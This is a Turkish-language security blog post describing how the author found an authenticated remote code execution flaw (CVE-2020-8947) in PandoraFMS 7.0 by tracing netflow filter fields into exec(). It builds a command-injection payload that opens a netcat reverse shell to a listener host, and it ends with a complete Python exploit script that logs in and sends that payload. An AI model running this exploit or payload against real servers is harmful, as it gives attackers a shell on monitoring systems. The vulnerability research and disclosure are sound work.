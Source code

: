 ```yaml
---
layout: post
title: PandoraFMS 7.0 Authenticated Remote Code Execution x 4
date: '2020-03-05 10:20:42 +0300'
categories: blog
---
```



Merhaba, [PANDORAFMS](http://pandorafms.org/) adında açık kaynaklı bir ağ izleme aracında bulduğum Authenticated RCE zafiyetinin detaylı bulumunu anlatıyor olacağım. Statik kaynak kod analizine dair türkçe pek bir kaynak bulunmuyor oluşunu göz önünde bulundurarak makaleyi türkçe kaleme aldım.

**AUTHENTICAD RCE**

Authenticated, zafiyetinin tetiklemesi için geçerli bir kullanıcı gerekli olduğunu belirtir. RCE ise uygulama üzerinden uygulamanın çalıştığı sunucuda sistem kodları çalıştırabilmemize olanak sağlayan zafiyet türüdür.

**PANDORAFMS**

1.  Uygulama indirme linki: [PandoraFMS Downloads](https://pandorafms.org/features/free-download-monitoring-software/)
2.  Zafiyeti tespit ettiğim sürüm: 7.0

**BÖLÜM 1: Uygulama Eldesi**

Profesyonel bir kaynak kod analizicisi değilim bu sebeple zafiyet bulmanın kendime göre en basit olacağı uygulama türleri sınıflandırdım. Bunların başında ise ağ izleme yazılımları geliyor. Ufak bir [arama sonucu](https://www.dnsstuff.com/open-source-network-monitoring-tools) açık kaynaklı popüler ağ izleme araçları listesine eriştim ve burada [PANDORAFMS](https://pandorafms.org/) yazılımına rastladım, hem açık kaynaklıydı hemde indirme linklerinde doğrudan sanallaştırma yazılımlarıyla kullanılabilecek bir OVA dosyası bulunuyordu. Doğrudan bir OVA dosyası bulunması, uygulamanın kaynak kodlarına erişimde işleri oldukça kolaylaştırıyor. OVA dosyasını indirdim ve [VMWARE Fusion](https://www.vmware.com/products/fusion.html) ile sanal makine olarak kaldırdım.

**Bölüm 2: Kaynak Kod Eldesi**

Sanal makineye giriş yapmak için dağımtıcının kendi sağladığı [kılavuz](https://pandorafms.com/downloads/guias_rapidas_EN.pdf) üzerinden root:pandora giriş bilgisini aldım ve sisteme giriş yaptım.

![]({{ AUCyberClub.github.io }}/assets/img/pandorafms/pandorafms.png)

Sistem üzerinde biraz gezindikten sonra, uygulamaya dair kodların varsayılan webservisi dizini olan /var/www/html dizininde tutulduğunu tespit ettim.

![]({{ AUCyberClub.github.io }}/assets/img/pandorafms/pandorafms-kaynak.png)

Kodları daha uygun bir ortadamda IDE üzerinden incelemek için dizini [TAR](https://wiki.ubuntu-tr.net/index.php?title=Tar_komutu_kullan%C4%B1m%C4%B1) ile sıkıştırdım ve SCP kullanarak ana makineme aktardım.

```
tar -czvf pandora.tar.gz /var/www/html/pandora_console
scp root@pandoraFMSIP:/var/www/html/pandora.tar.gz /tmp/pandora.tar.gz
```

**Bölüm 3: Kaynak Kodun İncelenmesi**

Dosyaları kendi tercih ettiğim [ATOM](https://atom.io/) idesini kullanarak kurcalamaya başladım.

Statik kaynak kod analizlerinde komut çalıştırmaya dair bir zafiyet arıyorsak başlı başlı dikkat etmemiz gereken bazı fonksiyonlar var. Bunların bir kaçına örnek olarak; `system, exec, shell_exec, popen, eval, passthru` fonksiyonları verilebilir.

IDE üzerinde tüm projede bulunan php dosyalarında yukarıda belirttiğim fonksiyonları aramaya başladım ve boşa çabalanan bir kaç saatin sonunda **functions_netflow.php** dosyasının 648\. satırında zafiyete dair çok umut vaadeden bir nokta tespit ettim.

![]({{ AUCyberClub.github.io }}/assets/img/pandorafms/pandorafms-finding-point.png)

Hem **exec()** fonksiyonu kullanılıyor hemde henüz nerenden geldiği belli olmayan ama ben kullanıcıdan geliyorum diye bağıran bir değişkeni içeriyordu. Fazla Kemal Sunal izlemenin etkisinden olacak "Şimdi istanbul hapı yuttu" diye aklımdan geçirerek **$command** değişkeninin nereden geldiğini kurculamaya başladım.

![]({{ AUCyberClub.github.io }}/assets/img/pandorafms/pandorafms-command.png)

**$command** değişkeni **net_flow_getcommand()** fonksiyonundan geliyor, daha sonrada önceden tanımlanmış ekstra bir kaç komutta üstüne ekleniyordu. IDE'nin arama özelliğini kullanarak fonksiyonun aynı dosyada 892.nci satırda tanımlandığını tespit ettim.

![]({{ AUCyberClub.github.io }}/assets/img/pandorafms/pandorafms-netflow-fonksiyon.png)

Fonksiyonu inclediğimde maalesef kullanıcıdan gelen herhangi bir verinin burada **$command** değişkenine maalesef eklenmediğini gördüm.

![]({{ AUCyberClub.github.io }}/assets/img/pandorafms/pandorafms-netflow-fonksiyon-ayrinti.png)

Fakat bereket olsun, **$command** değişkenine bir şeyler ekleyen yeni fonksiyon çıktı karşıma 904\. satırda bulunan **netflow_get_filter_arguments** fonksiyonu. IDE üzerinden fonksiyonun tanımlandığı noktayı tespit ettim (aynı dosya 917\. satır) ve fonksiyonu incelemeye koyuldum.

![]({{ AUCyberClub.github.io }}/assets/img/pandorafms/pandorafms-getfilter-fonksiyon.png)

Fonksiyon bir sürü farklı girdiyi(ipsrc, ipdst, srcport, dstport) herhangi bir kontrolden geçirmeden **$filter_args** adında bir değişkene ekliyor ve en sonunda **$filter_args** değişkenini değer olarak dönüyordu. Daha sonra bu değer, **$command** değişkenine ekleniyor ve ilk tespit edilen satırda bulunan **exec()** fonksiyonuna gönderiliyordu. Yani eğer bu değişkenlerden herhangi birine istediğimiz girdiyi verebilirsek pekala buradan bir RCE elde edebiliriz. Aslında aradığım şey $_GET yada $_POST şekilinde kullanıcıdan alınan bir girdiydi fakat bu değişkenlerin hiç birinin geleneksel GET yada POST ile alındığını tespit edemedim. RCE hem çok yakındı hemde çok uzak. Bu durum canımı oldukça sıkmış olsada fonksiyonun içinde bulunan değerlerin mantıksal olarak kullanıcıdan alınması gerekiyordu. Uzunca bir süre bu değişkenlerin nasıl alındığı tespit etmeye çalıştım fakat bir sonuca varamadım. Biraz kafa toplamak amacıyla mola verdim. Bu noktada aslında yine bir şey bulamadığımı düşünüp bırakacaktım ki, aykırı bir tutum sergileyerek Googleda ufak bir arama yaptım.

![]({{ AUCyberClub.github.io }}/assets/img/pandorafms/pandorafms-google.png)

Buradan dökümanları okumanın ne kadar önemli olduğunu tekrar alıyoruz. Site üzerinde biraz gezindikten sonra, heyecanımı tekrar kazandıran bir ekran görüntüsüne denk geldim

![]({{ AUCyberClub.github.io }}/assets/img/pandorafms/pandorafms-google-netflow-dokuman.png)

Burada ki gösterilen girdiler fonksiyonun içinde tespit ettiğimiz (ipsrc, ipdst, srcport, dstport) değişkenleriydi, yani RCE zafiyetini tetiklememiz için kontrol etmemiz gereken değişkenler. Hemen dökümanı takip ederek, tarayıcı üzerinden ilgili sayfaya eriştim:

![]({{ AUCyberClub.github.io }}/assets/img/pandorafms/pandorafms-netflow-page.png)

Girdilerin gönderildiği noktalarının tespitinin ardından, kalan son iş uygun payloadı oluşturmaktı. Fonksiyonları tekrar inceledim, **netflow_get_filter_arguments** fonksiyonun sonunda **$filter_args** değişkenine `"` karakteri eklediğini gördüm.

![]({{ AUCyberClub.github.io }}/assets/img/pandorafms/pandorafms-son-dokunuslar.png)

Çift tırnakları kapatmak için payloadımız " karakteriyle başlamalı ve kendi komutumuzu çalıştırmak adına " karakterini bir ; takip etmeli tabi farklı girdilerde kullanılabilir && gibi. Son olarak, payloadımızdan sonra gelecek eklemelerin payloadı bozmaması için en sona # işareti koymamız yeterli olacaktır. Yani payloadımız ";Girilecek Komut# taslağında olacak. Taslağın arasına ufak bir reverseshell komutu iliştirmek için [Pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) den bir reverseshell komutu aldım. Ve sonuç payloadı: **";nc -e /bin/sh 192.168.1.100 1234 #** olarak oluştu. Ve sayfada bulunan "router ip" harici herhangi bir inputa oluşturduğum payloadı verdiğimde bir shell eldesi sağladım.

![]({{ AUCyberClub.github.io }}/assets/img/pandorafms/pandorafms-son.png)

Dağıtımcıya ulaşmaya çalıştım fakat bir sonuç alamadım. Bu nedenle makaleyi açık olarak yayınladım.


**Bölüm 4: Exploit**



```

'''
PANDORAFMS 7.0 Authenticated Remote Code Execution x4
This exploits can be edited to exploit 4x Authenticated RCE vulnerabilities exist on PANDORAFMS.
incase default vulnerable variable won't work, change the position of payload to  one of the following ip_src, dst_port, src_port

Author: Engin Demirbilek
Github: github.com/EnginDemirbilek
CVE: CVE-2020-8947

'''
import requests
import sys

if len(sys.argv) < 6:
	print "Usage: ./exploit.py http://url username password listenerIP listenerPort"
	exit()

url = sys.argv[1]
user = sys.argv[2]
password = sys.argv[3]
payload = '";nc -e /bin/sh ' + sys.argv[4] + ' ' + sys.argv[5] + ' ' + '#'

login = {
	'nick':user,
	'pass':password,
	'login_button':'Login'
}
req = requests.Session()
print "Sendin login request ..."
login = req.post(url+"/pandora_console/index.php?login=1", data=login)

payload = {
	'date':"",
	'time':"",
	'period':"",
	'interval_length':"",
	'chart_type':"",
	'max_aggregates':"1",
        'address_resolution':"0",
        'name':"",
        'assign_group':"0",
        'filter_type':"0",
        'filter_id':"0",
        'filter_selected':"0",
        'ip_dst':payload,
	'ip_src':"",
	'dst_port':"",
	'src_port':"",
	'advanced_filter':"",
	'aggregate':"dstip",
	'router_ip':"",
	'output':"bytes",
	'draw_button':"Draw"
}

print "[+] Sendin exploit ..."

exploit = req.post(url+"/pandora_console/index.php?sec=netf&sec2=operation/netflow/nf_live_view&pure=0",cookies=req.cookies, data=payload, headers={
'User-Agent':'Mozilla/5.0 Gecko/20100101 Firefox/72.0',
'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
'Accept-Encoding':'gzip, deflate',
'Content-Type':'application/x-www-form-urlencoded'})

if exploit.status_code == 200:
	print "[+] Everything seems ok, check your listener."
else:
	print "[-] Exploit failed. You can change position of payload to ip_src, dst_port or src_port and try again."


```
